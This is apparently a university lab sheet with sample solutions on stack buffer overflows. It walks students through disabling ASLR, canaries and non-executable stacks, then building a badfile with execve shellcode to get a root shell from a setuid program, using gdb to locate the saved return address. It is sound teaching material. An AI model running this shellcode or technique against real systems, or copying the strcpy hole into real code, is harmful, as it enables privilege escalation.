# CITS3007 lab 4 (week 6) – Buffer overflows – solutions

It’s recommended you complete this lab in pairs, if possible, and discuss your results with your partner.

The objective of this lab is to gain insight into buffer overflow vulnerabilities and see how they can be exploited. You will be given a `setuid` program with a buffer overflow vulnerability, and your task is to develop a scheme to exploit the vulnerability and gain root privileges.

**Note – use of Vagrant+VirtualBox required**

Completing this lab requires you to have root access to the Linux kernel of the VM (or other machine) you’re running on. Otherwise, the command

```
sudo sysctl -w kernel.randomize_va_space=0
```

(in section 1.1, Turning off countermeasures) will fail. The [GitPod](https://gitpod.io/) environment does *not* give you root access to the kernel; while using GitPod, you are running within a security-restricted [Docker container](https://docs.docker.com/get-started/overview/) *within* a VM, and will be unable to change the way the kernel is running.

To complete this lab, you’ll need to use Vagrant (as outlined in Lab 1) to run a VirtualBox VM. Within that VM, you *do* have root access to the kernel, and the command should complete successfully.

If you can’t run Vagrant and VirtualBox on your laptop, it’s recommended you pair up with a student who is able to, and complete the lab working with them. If you’re unable to do that, please let your lab facilitator know, and we’ll see if we can provide an alternative.

## 1. Setup

### 1.1. Turning off countermeasures

Modern operating systems implement several security mechanisms to make buffer overflow attacks more difficult. To simplify our attacks, we need to disable them first.

**Address Space Randomization**

Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult. This feature can be disabled by running the following command in the CITS3007 development environment:

```
$ sudo sysctl -w kernel.randomize_va_space=0
```

**The `sysctl` command**

This information isn’t essential to the lab, but may be helpful in understanding what’s going on here.

The [`sysctl`](https://linux.die.net/man/8/sysctl) command (documented at `man 8 sysctl`) alters the parameters of a running Linux kernel. (The `sysctl` command should not be confused with the annoyingly similarly named [`systemctl`](https://man7.org/linux/man-pages/man1/systemctl.1.html) command, which has to do with starting and stopping daemon programs on a system.)

The current value of the `randomize_va_space` (“randomize virtual address space”) kernel parameter can be displayed by running the command:

```
$ cat /proc/sys/kernel/randomize_va_space
```

The result is a number, 0, 1 or 2, with the following meanings:

- 0 – No randomization. Everything is static.
- 1 – Conservative randomization. Shared libraries, stack, `mmap()`, VDSO and heap are randomized.
- 2 – Full randomization. In addition to elements listed in the previous point, memory managed through `brk()` is also randomized.

(The [`brk()`](https://man7.org/linux/man-pages/man2/sbrk.2.html) system call, documented at `man 2 brk`, [adjusts the size of the heap](https://stackoverflow.com/a/31082353/6818792); it’s one of the system calls typically used by `malloc` to allocate memory on the heap.)

We use the `sysctl` command to set this parameter to 0.

**Configuring `/bin/sh`**

In recent versions of Ubuntu OS, `/bin/sh` is a symbolic link pointing to the `/bin/dash` shell: run `ls -al /bin/sh` to see this.

The dash program (as well as bash) implements a countermeasure that prevents it from being executed in a setuid process. If the shell detects that the effective user ID differs from the actual user ID (see the previous lab), it will immediately change the effective user ID back to the real user ID, essentially dropping the privilege.

Since our victim program is a `setuid` program, and our attack relies on running `/bin/sh`, the countermeasure in `/bin/dash` makes our attack more difficult. Therefore, we will link `/bin/sh` to `zsh` instead, a shell which lacks such protection (though with a little bit more effort, the countermeasure in `/bin/dash` can be easily defeated). Install the `zsh` package with the command `sudo apt-get update && sudo apt-get install -y zsh`, then run the following command to link `/bin/sh` to `zsh`:

```
$ sudo ln -sf /bin/zsh /bin/sh
```

You can confirm that you’ve done this correctly by running the command:

```
$ sh --version
```

If all is working as expected, it should display:

```
zsh 5.8 (x86_64-ubuntu-linux-gnu)
```

**Non-executable stack**

When the program runs, the memory segment containing the stack can be marked non-executable. This feature can be turned off during compilation, by passing the option “`-z execstack`” to `gcc`. This option is passed onto the linker, `ld`, and marks the output binary as requiring an *executable* stack.

This option is documented in `man ld`, and we will discuss it further when compiling our programs.

**Stack canaries**

The `gcc` compiler can include code in a compiled program which inserts [stack canaries](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) in the stack frames of a running program, and before returning from a function, checks that the canary is unaltered.

A RedHat article on compiler [stack protection flags](https://developers.redhat.com/articles/2022/06/02/use-compiler-flags-stack-protection-gcc-and-clang#stack_canary) outlines the flags which enable stack canaries in `gcc`; we will use the `-fno-stack-protector` flag to ensure they’re disabled. (Further documentation on these options is available in the [`gcc` manual](https://gcc.gnu.org/onlinedocs/gcc-12.2.0/gcc/Instrumentation-Options.html#Instrumentation-Options).) We discuss this option further when compiling our programs.

## 2. Shellcode

[*Shellcode*](https://en.wikipedia.org/wiki/Shellcode) is a small portion of code that launches a shell, and is widely used in code injection attacks. The aim is to inject code into the running process that will allow us to exploit the system. In the buffer overflow attack we launch in this lab, we’ll write that code – which is just a sequence of bytes – into a location on the stack, and try to convince the target program to execute it.

Represented in C, a piece of shellcode might look like the following:

```c
#include <stdio.h>

int main() {
  char *name[2];
  name[0] = "/bin/sh";
  name[1] = NULL;
  execve(name[0], name, NULL);
}
```

Read about the Linux `execve` system call by typing [`man execve`](https://man7.org/linux/man-pages/man2/execve.2.html); it allows us to execute a program from C code. The `name` array is effectively a list of pointers-to-`char`, with a `NULL` pointer used to mark the end of the list.

However, we can’t straightforwardly use `gcc` to obtain our shellcode. Recall that shellcode is a *small* sequence of bytes that we want to inject into a target process. Try saving the above code as `shellcode.c`, and compile it with `make shellcode.o shellcode`. Examine the size of the compiled program with

```
$ du -sk shellcode
```

Instead, the easiest way to construct shellcode is to write it in assembly. The Intel 32-bit assembly code equivalent for the above C code would be something like the following (which you are not required to understand, but is presented here for interest):

```
; Store the command on stack
xor  eax, eax
push eax
push "//sh"
push "/bin"
mov  ebx, esp ; ebx --> "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax ; argv[1] = 0
push ebx ; argv[0] --> "/bin//sh"
mov ecx, esp ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable
xor edx, edx ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor eax, eax ;
mov al, 0x0b ; execve()'s system call number
int 0x80
```

A brief explanation of the code (again, you’re not required to understand this in detail) is:

- The `"/sh"` and `"/bin"` arguments are pushed onto the stack (lines 1–5)
- We need to pass three arguments to `execve()` via the `ebx`, `ecx` and `edx` registers, respectively. The majority of the shellcode basically constructs the content for these three arguments.
- The code in lines 17–19 is where we make the `execve` system call – that is, we request a service from the kernel. The kernel expects us to put a number identifying the system call we’re after (in this case, `execve`) into the `a1` register, and then notify the kernel by invoking an “interrupt”.

  So, we need to know what the system call number for `execve` is – it is `0x0b`. (A list of all the system calls and their numbers are found in a Linux header called `unistd_32.h`, usually found at `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`. On Ubuntu, this file will only exist if you’ve installed the package `linux-libc-dev`.)

  We set `al` to `0x0b` (`al` represents the lower 8 bits of the `eax` register), and then execute the instruction “`int 0x80"`.

  The `int` instruction generates a call to an *interrupt handler* – a bit like an exception handler – and the `0x80` in `int 0x80` identifies a specific bit of kernel handler code which exists to handle system calls.

  That handler will look in register `a1` (part of the `eax` register) to find out what system call we want to execute, and in registers `ebx`, `ecx` and `edx` for the arguments to that system call.

**Programming in assembly**

If you’re interested in further details on programming in x86 assembly, this [guide](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html) from the University of Virginia gives more details, such as how the `push` instruction works with the hardware-supported call stack.

Another useful reference is the [Wikibook](https://en.wikibooks.org) on [x86 Assembly](https://en.wikibooks.org/wiki/X86_Assembly).

```
off   bytes                       assembly code
---------------------------------------------------
   0:    31 c0                    xor    eax,eax
   2:    50                       push   eax
   3:    68 2f 2f 73 68           push   0x68732f2f
   8:    68 2f 62 69 6e           push   0x6e69622f
   d:    89 e3                    mov    ebx,esp
   f:    50                       push   eax
  10:    53                       push   ebx
  11:    89 e1                    mov    ecx,esp
  13:    31 d2                    xor    edx,edx
  15:    31 c0                    xor    eax,eax
  17:    b0 0b                    mov    al,0xb
  19:    cd 80                    int    0x80
```

### 2.1. Invoking the shellcode

Download the file [`lab04-code.zip`](https://cits3007.github.io/labs/lab04-code.zip) into the VM (you can use the command `wget https://cits3007.github.io/labs/lab04-code.zip`) and unzip it.

`cd` into the `shellcode` directory, and take a look at `call_shellcode.c` (reproduced below):

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

The purpose of this program is to demonstrate that our shellcode byte-sequence does indeed invoke the shell `/bin/sh`.

The byte sequences are stored in the array `shellcode` – observe that the 32-bit version starts with “`\x31\xc0\x50`”, which is the byte sequence we get from compiling our assembly code.

In line 27, we declare `func`, which is a *pointer to a function*; the address of the “function” we’re pointing at is in fact the buffer `code`. We cast the address of `code` into the type we want by putting `(int(*)())` in front of it; that says the type to convert to is “pointer to a function which takes no arguments and returns an `int`”. (Try pasting that fragment of code into https://cdecl.org and see what it translates the type as.) Usually, the bytes sitting in `code` would *not* be executable, because they are part of the call stack; but in our Makefile we pass the option “`-z execstack`” to `gcc`, which says to make the stack memory segment executable.

So: when the function pointer `func` is invoked (line 29), the instructions sitting in `code` will be executed. Discuss with your lab partner what is happening here; ask the lab facilitator for an explanation if you’re not sure.

The code above includes two copies of the shellcode – one is 32-bit and the other is 64-bit. When we compile the program using the -m32 flag, the 32-bit version will be used; without this flag, the 64-bit version will be used. Using the provided Makefile, you can compile the code by typing `make`. Two binaries will be created, `a32.out` (32-bit) and `a64.out` (64-bit). Run them and describe your observations. As noted above, the compilation uses the `execstack` option, which allows code to be executed from the stack; without this option, the program will fail. Try deleting the flags “`-z execstack`” from the makefile and compile and run the programs again – what happens?

**Sample solutions**

If the “`-z execstack` flags are removed, then running the compiled programs – which try to execute instructions in a non-executable segment of memory – results in a segmentation fault, and the program aborts.

## 3. A vulnerable program

The vulnerable program used in this lab is called `stack.c`, which is in the `code` folder from the zip file. This program has a buffer overflow vulnerability, and your job is to exploit this vulnerability and gain root privileges. The essential parts are shown below (some inessential functions have been omitted):

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str) {
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv) {
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    bof(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}
```

The above program has a buffer overflow vulnerability. It first reads an input from a file called `badfile`, and then passes this input to another buffer in the function `bof()`. The original input can have a maximum length of 517 bytes, but the buffer in `bof()` is only `BUF_SIZE` bytes long, which is less than 517. Because `strcpy()` does not check boundaries, buffer overflow will occur.

Since this program is a root-owned `setuid` program, if a normal user is able to exploit this vulnerability, the user might be able to get a root shell. Note that the program gets its input from a file called `badfile`, which is under users’ control. Now, our objective is to create the contents for `badfile`, such that when the vulnerable program copies the contents into its buffer, a root shell can be spawned.

### 3.1. Compilation

To compile the above vulnerable program, do not forget to turn off the stack canaries and the non-executable stack protections using the `-fno-stack-protector` and “`-z execstack`” options.

After compilation, we need to make the program a root-owned `setuid` program. We can achieve this by first changing the ownership of the program to root, and then changing the permission to `4755` to enable the `setuid` bit:

```
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

It should be noted that changing ownership must be done before turning on the `setuid` bit, because ownership change will cause the `setuid` bit to be turned off.

The compilation and setup commands are already included in Makefile, so we just need to type `make` to execute those commands. The variables L1, …, L4 are set in Makefile; they will be used during the compilation.

### 3.2. Launching an attack on a 32-bit program

To exploit the buffer-overflow vulnerability in the target program, the most important thing to know is the distance between the buffer’s starting position and the place where the return-address is stored. We will use a debugging method to find it out. Since we have the source code of the target program, we can compile it with the debugging flag turned on. That will make it more convenient to debug.

We will add the `-g` flag to the `gcc` command, so debugging information is added to the binary. If you run `make`, the debugging version is already created. We will use `gdb` to debug `stack-L1-dbg`. We need to create a file called `badfile` before running the program.

```
$ touch badfile # Create an empty badfile
$ gdb stack-L1-dbg # start gdb
```

**ASLR in `gdb`**

Within gdb, run the commands:

```
(gdb) b bof
(gdb) run
(gdb) next
(gdb) print $ebp
(gdb) print &buffer
(gdb) quit
```

This will set a break point at function `bof()` and run the program. We stop at the `bof` function and step to the `strcpy` call.

The `ebp` register is used at runtime to point to the “start” (high-memory end) of the current stack frame. When gdb stops “inside” the `bof()` function, it actually stops *before* the `ebp` register is set to point to the current stack frame, so if we print out the value of ebp here, we will get the *caller’s* `ebp` value. We need to use `next` to execute a few instructions and stop after the `ebp` register is modified to point to the stack frame of the `bof()` function.

It should be noted that the frame pointer value obtained from gdb is **different** from that during the actual execution (without using gdb). This is because gdb has pushed some environment data into the stack before running the debugged program. When the program runs directly without using gdb, the stack does not have those data, so the actual frame pointer value will be larger. You should keep this in mind when constructing your payload.

**Registers and the stack**

A *register* is a quickly accessible location available to a CPU. You can think of it as being a `size_t` cell of memory hanging directly off the CPU. (Often, the CPU will also provide ways of referring to just *part* of a register, as well. For instance, there may be a name by which you can refer to just the 8 lowest (`char`-sized) bits of some register.) As a program executes, data from memory will often be loaded into the processor’s registers so it can be operated on.

On 32-bit Intel machines, some of the registers have special purposes.

- The `eip` register: this is the “Extended Instruction Pointer” register (or just “Instruction Pointer”) – it keeps track of what instruction should be executed next.

  When a function is called – and a new stack frame gets pushed onto the call stack – the value of the `eip` register needs to be *saved* somewhere in the stack frame, so that when the current function returns, we know what instruction to execute afterwards.
- The `ebp` register: this is used to hold the “base pointer” for the current stack frame. As the stack frame is being set up, `ebp` will be used to store a “start” or “base” point for the stack frame, and the location of variables will be calculated relative to the value of `ebp`.

  On `gcc`, it’s possible to use the function `__builtin_frame_address()` to get the value of the `ebp` register (see https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html).
- The `esp` register: the “current stack frame” pointer. This points to the spot in the current stack frame where new local variables should be inserted. As a stack frame is being set up, this starts off being equal to the `ebp` register. As memory is allocated for local variables, the `esp` register will get decremented.



x86 registers

(Diagram of x86 registers from University of Virginia cs216 [*x86 Assembly Guide*](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html) by David Evans.)

To exploit the buffer overflow vulnerability in the target program, we need to prepare a payload, and save it inside `badfile`. We will use a Python program to do that. We provide a skeleton program called `exploit.py`, which is included in the lab zip file. The code is incomplete, and students need to replace some of the essential values in the code:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x90\x90\x90\x90"
  "\x90\x90\x90\x90"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00           # Change this number
offset = 0              # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

You will need to change the `exploit.py` code to:

- Write the correct sequence of shellcode bytes, at line 5. (Currently, the variable `shellcode` just contains junk, “no-op” instructions.)
- Alter the `start` variable at line 15. This specifies at exactly what offset in `badfile` the shellcode bytes are inserted.
- Alter the `ret` variable at line 20 and the `offset` variable at line 21. `offset` specifies a place in `badcode` where we want to insert an “address to return to”, and `ret` is that address.

Running `exploit.py` will generate a file `badfile`. Then run the vulnerable program `stack`.

If your exploit is implemented correctly, you should be able to get a root shell:

```
$ ./exploit.py # create the badfile
$ ./stack-L1   # launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```

Try running the command `id` to confirm you are root.

### 3.3. Hints on inserting your shellcode

It can be helpful to try and orient yourself while using `gdb`, and work out where different parts of the stack are. In this section, we show some commands you can run to find their locations.

While you have the `stack-L1-dbg` program stopped at a breakpoint in `gdb`, open another terminal session and `ssh` into the VM so you can run `ps -af | grep stack-L1-dbg`.

You should see something like the following:

```
$ ps -af | grep stack-L1-dbg
vagrant     1355    1340  0 02:43 pts/1    00:00:00 gdb ./stack-L1-dbg
vagrant     1357    1355  0 02:43 pts/1    00:00:00 /home/vagrant/lab04-code/code/stack-L1-dbg
vagrant     1362    1246  0 02:44 pts/0    00:00:00 grep --color=auto stack-L1-dbg
```

Here, the second line shows the (currently stopped) `stack-L1-dbg` process; the second column is the *process ID*. If you run `cat /proc/process_id/maps` (replacing *process_id* with the process ID of the `stack-L1-dbg` process), you should get output like the following:

```
56555000-56558000 r-xp 00000000 fc:03 393228                             /home/vagrant/lab04-code/code/stack-L1-dbg
56558000-56559000 r-xp 00002000 fc:03 393228                             /home/vagrant/lab04-code/code/stack-L1-dbg
56559000-5655a000 rwxp 00003000 fc:03 393228                             /home/vagrant/lab04-code/code/stack-L1-dbg
5655a000-5657c000 rwxp 00000000 00:00 0                                  [heap]
f7dd5000-f7fba000 r-xp 00000000 fc:03 1847105                            /usr/lib32/libc-2.31.so
f7fba000-f7fbb000 ---p 001e5000 fc:03 1847105                            /usr/lib32/libc-2.31.so
f7fbb000-f7fbd000 r-xp 001e5000 fc:03 1847105                            /usr/lib32/libc-2.31.so
f7fbd000-f7fbe000 rwxp 001e7000 fc:03 1847105                            /usr/lib32/libc-2.31.so
f7fbe000-f7fc1000 rwxp 00000000 00:00 0
f7fcb000-f7fcd000 rwxp 00000000 00:00 0
f7fcd000-f7fd0000 r--p 00000000 00:00 0                                  [vvar]
f7fd0000-f7fd1000 r-xp 00000000 00:00 0                                  [vdso]
f7fd1000-f7ffb000 r-xp 00000000 fc:03 1847101                            /usr/lib32/ld-2.31.so
f7ffc000-f7ffd000 r-xp 0002a000 fc:03 1847101                            /usr/lib32/ld-2.31.so
f7ffd000-f7ffe000 rwxp 0002b000 fc:03 1847101                            /usr/lib32/ld-2.31.so
fffdd000-ffffe000 rwxp 00000000 00:00 0                                  [stack]
```

This gives you a picture of the process’s virtual memory – memory addresses are in the leftmost column. The actual program instructions of `stack-L1-dbg` – the “text segment” – are in the addresses `0x56555000` to `0x5655a000` (the top few lines). Back in `gdb`, if you ask for the memory address of the instructions of the `main` routine, you should get an address in that range:

```
(gdb) print main
$1 = {int (int, char **)} 0x565562e0 <main>
```

The *stack* is in the range of addresses from `0xfffdd000` to `0xffffe000`.

If we’re stopped somewhere in the `bof` function, then if we issue the `backtrace` command, we can get some basic information about the stack frames currently on the stack:

```
(gdb) backtrace
#0  bof (str=0xffffd2e3 "\n\212\027\377\367\bRUV\001") at stack.c:17
#1  0x565563ee in dummy_function (str=0xffffd2e3 "\n\212\027\377\367\bRUV\001") at stack.c:46
#2  0x56556382 in main (argc=1, argv=0xffffd5a4) at stack.c:34
```

This says there are 3 stack frames on the stack. Stack frame #2 represents our position in the `main` function. We’ve just executed an instruction sitting at location `0x56556382` in memory,[^2] which corresponds to `stack.c` line 34 (i.e., the call to `dummy_function(str)`).

Similarly, stack frame #1 represents our position in `dummy_function`, and stack frame #0 is the current stack frame.

We can get more information about a stack frame using the `info frame` command. For instance, issuing the gdb command `info frame 0` should result in output like the following:

```
(gdb) info frame 0
Stack frame at 0xffffcec0:
 eip = 0x565562c2 in bof (stack.c:17); saved eip = 0x565563ee
 called by frame at 0xffffd2d0
 source language c.
 Arglist at 0xffffce3c, args: str=0xffffd2e3 "\n\212\027\377\367\bRUV\001"
 Locals at 0xffffce3c, Previous frame's sp is 0xffffcec0
 Saved registers:
  ebx at 0xffffceb4, ebp at 0xffffceb8, eip at 0xffffcebc
```

This tells us:

- Looking at the first line of output, `Stack frame at 0xffffcec0`:

  The current stack frame, for `bof`, is at location `0xffffcec0`. (The stack frames for `dummy_function` and `main`, if we inspect them, will be at higher addresses in memory. Recall that the stack grows from *high* memory addresses to *low* ones.)
- Looking at the second line of output, `eip = 0x565562c2 in bof (stack.c:17); saved eip = 0x565563ee`:

  This tells us about the value of the `eip` register. On Intel processors, this is the “Extended Instruction Pointer” register – it keeps track of what instruction is currently being executed.

  `eip = 0x565562c2 in bof (stack.c:17)` tells us that we’re currently executing the instruction at location `0x565562c2` in memory, and that it corresponds to `stack.c` line 17.

  `saved eip = 0x565563ee` tells us about the bit of the stack frame that says what code to execute after the current function returns. Presently, the stack frame is going to return to location `0x565563ee` – the spot in `dummy_function` where we’ve just executed the call to `bof()`.
- Looking at the last line of output, `eip at 0xffffcebc`:

  This tells us the location we need to overwrite, if we want to jump to somewhere *other* than `dummy_function`.

  Memory location `0xffffcebc` is the part of the current stack frame which stores the “next instruction to execute” after `bof` returns.

Let’s examine the Instruction Pointer a little. Make sure you’re stopped in the middle of the `bof` function: issue the gdb commands `run` (this will ask you if you want to restart the program; answer yes) and `next` to get there.

Issue the gdb comman `print $eip` to show the current value of the Instruction Pointer, and you should see something like the following:

```
(gdb) print $eip
$8 = (void (*)()) 0x565562c2 <bof+21>
```

What does this mean?

- `(void (*)())` says that we should think of the `eip` register as holding a pointer to a function taking no arguments and returning void.
- `0x565562c2` is the location in memory of the address currently being executed.
- `<bof+21>` says it’s 21 instructions past the start of `bof`. (If you like, you can confirm this by issuing the gdb command `print bof` – that will tell you where the *first* instruction in `bof` is located – and checking that it’s equal to *address_in_eip* $−$ 21.

Now let’s do the same for the *saved* `eip`.

**Convenience variables in gdb**

Sometimes while debugging in `gdb`, it’s handy to be able to hang onto some value because it will be useful to refer to it in a later step.

`gdb` lets us define *convenience variables* (see the `gdb` documentation on them [here](https://sourceware.org/gdb/onlinedocs/gdb/Convenience-Vars.html)). These variables aren’t part of the program being debugged; they exist purely within `gdb`, and have no effect on the execution of the program. They’re more like a piece of “scratch paper” on which you might write down notes for later.

Convenience variables start with a dollar sign (“`$`”). You can *set* a convenience variable with a command like:

```
(gdb) set $myvar = 0x2020
```

and thereafter use the variable in any `gdb` command. For instance, the following will print the value of `$myvar`:

```
(gdb) print/x $myvar
$9 = 0x2020
```

(The “`/x`” after the “print” command instructs `gdb` to print the result in hexadecimal notation, rather than decimal, and is useful for printing the value of pointers.)

We know the saved `eip` is stored in memory location `0xffffcebc`. Let’s see where that *currently* points. We’ll use `gdb`’s “convenience variables” to make our commands a bit easier to read.

```
(gdb) set $saved_eip = 0xffffcebc
#     ^ store the location for later
(gdb) print (size_t *) $saved_eip
#     ^ we can tell gdb to treat $saved_eip as a size_t*
$10 = (size_t *) 0xffffcebc
(gdb) print/x (* ((size_t *) $saved_eip))
#     ^ now we *dereference* the $saved_eip location,
#       displaying (in hex) the address it holds.
$11 = 0x565563ee
```

We know it’s okay to treat `$saved_eip` as a “pointer to `size_t`”, because a `size_t` is big enough to hold any address in memory.[^3] `gdb` tells us that the current contents of `$saved_eip` is `0x565563ee` – and that is indeed the address `gdb` has said we’re going to jump back to.

We can issue the command `print (void (*)()) 0x565563ee` to confirm where that adddress is – `gdb` will tell us that it’s the same as `<dummy_function+62>`. (We cast it to the type “pointer to a function taking no arguments and returning `void`, so that `gdb` knows to interpret it as the address of executable code.)

So, we’ve confirmed that the saved `eip` register does says that once the current function has finished executing, we’re to jump back into somewhere in `dummy_function` (specifically, the 62nd instruction after the start of the function).

So, how can we overwrite the saved `eip`? We’ll need to know

1. where the `buffer[BUF_SIZE]` local variable is sitting in memory. This is where the contents of `badfile` will get written.
2. how far past that location the saved `eip` is. If we adjust the contents of `badfile` carefully, we should be able to overwrite the saved `eip` with the address of some other function.

We can get item (a) by issuing the command `print &buffer`. The output should be something like:

```
(gdb) print &buffer
$12 = (char (*)[100]) 0xffffce4c
```

So the address of the saved `eip`, minus the address of `buffer`, tells us the spot in `badfile` that should contain the address of our malicious shellcode.

To start with, you might want to focus on overwriting the saved `eip` with a function of your choosing and get that working, before trying to force execution of your shellcode.

Then, try to get your shellcode executed. In `exploit.py`, change the value of `shellcode` so that it holds the shellcode instructions to execute. You’ll then need to decide where in `buffer` your shellcode should be inserted (leaving it at 0 to start with is fine); work out what the start address of your shellcode is going to be; and ensure that `ret` contains that address.

**Sample solutions**

By working through section 3.3, it should be possible to work out how the `bof` stack frame is laid out in memory for the `stack-L1-dbg` program.

When `bof` is executing, the stack frames in `stack-L1-dbg` look like this:

[figure not shown]

stack frames

So we need to overwrite address ebp+4 (the saved `eip`), and store in it the address of our shellcode.

- Since we have access to the source code of the setuid version (it’s the same as the source code for the -dbg version); and since, if there’s no ASLR, functions should end up in exactly the same address each time: that means we can make a copy of the code, add “printf” calls to print out things like the location of the `str` argument to `bof` (near the high memory end of the stack frame) and the location of `buffer`.

  For instance, we can add the following code to `bof`:

  ```c
  printf("&buffer: %p\n", &buffer);
  printf("&str: %p\n", &str);
  ```

  and from those, work out where the saved `eip` must be.
- Even though `stack-L1` has no debugging information added to it, you *can* actually still run `gdb` on it. Run the following commands:

  ```
  (gdb) layout asm  # switch to displaying assembly, since there's no C source
  (gdb) break bof   # set a breakpoint at bof
  (gdb) run         # run til the breakpoint
  ```

  and you’ll stop at the start of `bof`. You can still run the `backtrace` and `info frame 0` commands to find out where the saved return address and what the frame “base” address is (the `ebp` register). But you can no longer run (for example) `info locals` , since information about the C variable names and their types has been lost.

  But, knowing that when variable names are lost, and that the assembly code uses “offsets from the `ebp` register” instead of variables, you might guess that just before the call to `strcpy`, the assembly code must include the offset to `buffer`. And indeed this is the case: the assembly preserves a pretty readable call to `strcpy` (“`call 0x56556130 <strcpy@plt>`”), and a few instructions beforehand is the exact offset from `ebp` to `buffer`.

  (If the executable has been *stripped* using the `strip` program, though, then even the name of functions like `bof` get removed, and it’s no longer possible to run `break bof`. It *is* possible to work with `gdb` on stripped binaries, but can be a bit of a pain – a blogger on medium.com gives some tips in this post, “[Working With Stripped Binaries in GDB](https://tr0id.medium.com/working-with-stripped-binaries-in-gdb-cacacd7d5a33)”. Fortunately, in this lab we are working only with unstripped binaries.)
- It can be discovered through research (though we didn’t cover it in class) that there are `gcc`-specific features that allows us to print off the contents of the `ebp` register.

  The following code will do so:

  ```
  register size_t my_ebp_var asm("ebp");
  printf("ebp: %zx\n", my_ebp_var);
  ```

  We can insert that code into a copy of `stack-L1` and compile it. Since we know the “saved `eip`” location is `$ebp + 4`, we know now what location we have to overwrite in order to jump to our shellcode.

Some additional hints:

- It can be useful to experiment with a `badfile` where the contents are very distinctive, and easy to spot in `gdb`’s output.

  For instance, a badfile that starts with the letters “`ABCDEFGHIJKLMNOPQRSTUVWXYZ`”, say.

  Likewise, before trying the exploit with real shellcode, you could try using a sequence like `"\0x10\0x11\0x12\0x13\0x14\0x15\0x16\0x17\0x1a"`) so it’s easy to spot where in the `buffer` variable it’s located.
- To print out the contents of a string in memory, you can use the `gdb` command `x/s some_ptr`.

  (For other formats you can use, see the `gdb` “[x command](https://visualgdb.com/gdbreference/commands/x)” reference.)
- The x86 assembly instruction “`NOP`” (“No Operation”, code `0x90`) does nothing – it’s like a semicolon in C, or the “`pass`” statement in Python. So if you put your shellcode sequence towards the *end* of `badfile`, it won’t matter if the location you jump to is a bit ahead of the shellcode – the `NOP` instructions will just get executed til the start of the shellcode.
- The `objdump` program can be used to *disassemble* the `stack-L1` and `stack-L1-dbg` binaries.

  For the `-dbg` version of the vulnerable program, we can see the assembler code intermingled with C source code by running:

  ```
  $ objdump --line-numbers -d --source  ./stack-L1-dbg
  ```

